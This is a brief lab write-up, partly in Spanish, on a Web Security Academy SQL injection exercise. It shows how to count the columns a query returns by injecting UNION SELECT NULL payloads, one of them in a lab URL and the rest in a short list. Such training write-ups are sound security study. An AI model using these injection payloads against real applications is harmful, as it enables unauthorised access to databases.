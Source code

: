 # SQL injection UNION attack, determining the number of columns returned by the query

Solo teniamos que saber cuantas columnas tenia:

`https://0a0c00e703cdfd78807799e00031008d.web-security-academy.net/filter?category=Tech+gifts%27%20UNION%20SELECT%20NULL,%20NULL,%20NULL--`

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```